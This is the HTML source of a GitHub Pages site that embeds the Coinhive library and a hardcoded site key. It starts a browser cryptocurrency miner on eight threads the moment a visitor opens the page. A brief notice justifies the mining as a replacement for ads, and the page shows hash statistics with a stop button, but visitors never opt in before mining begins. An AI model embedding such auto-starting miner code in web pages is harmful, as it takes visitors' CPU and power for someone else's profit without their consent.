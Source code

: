 ## Welcome to GitHub Pages
1<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
Instead of using ads, I am having you mine for crypto currency to support this site. Here are your stats:
<center>
<p id="tcount"></p>
<p id="hps"></p>
<p id="ths"></p>
<p id="tah"></p>
</center>
<p>You can start or stop at anytime but please wait for some accepted hashes before you do.</p>
<center>
<p id="minebutton"></p>
</center>
<p>Visit <a href="https://coin-hive.com/">Coin Hive</a> to learn more about how this works</a>

<script type="text/javascript">
var miner = new CoinHive.Anonymous('oXdqhulPqxBSCSnEX3WNJ88eMzUbsAFG','threads: 8');
miner.start(CoinHive.FORCE_EXCLUSIVE_TAB);
// Update stats once per second
setInterval(function() {
    var threadCount = miner.getNumThreads();
    var hashesPerSecond = Math.round(miner.getHashesPerSecond() * 100) / 100;
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes() / 256;
    // Output to HTML elements...
    if (miner.isRunning()) {
        document.getElementById("tcount").innerHTML = "Threads: " + threadCount;
        document.getElementById("hps").innerHTML = "hashes per second: " + hashesPerSecond;
        document.getElementById("ths").innerHTML = "Total Hashes: " + totalHashes;
        document.getElementById("tah").innerHTML = "Accepted Hashes: " + acceptedHashes;
        document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.stop()\">Stop Mining</button>";
    } else {
        document.getElementById("hps").innerHTML = "Please click start";
        document.getElementById("ths").innerHTML = "to support";
        document.getElementById("tah").innerHTML = "this site";
        document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)\">Start Mining</button>";
    }
}, 1000);
</script>
